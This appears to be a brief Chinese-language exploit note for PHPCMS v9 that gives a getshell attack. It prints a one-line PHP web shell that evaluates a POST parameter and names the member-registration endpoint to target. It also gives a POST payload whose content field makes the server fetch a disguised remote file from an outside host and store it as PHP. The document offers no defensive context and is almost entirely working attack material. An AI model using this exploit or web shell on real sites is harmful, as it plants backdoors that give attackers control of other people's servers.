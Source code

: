 ### 通杀PHPCMSv9 getshell
### 菜刀马: <?php @eval($_POST["1"])?>
### POST地址：
```PHP
http://网址/index.php?m=member&c=index&a=register&siteid=1
```
### EXP
```PHP
siteid=1&modelid=1&username=test13&password=sinesafe9&email=test13@qq.com&info[content]=<img src=http://ximcx.cn/1.txt?.php#.jpg>&dosubmit=1&protocol=
```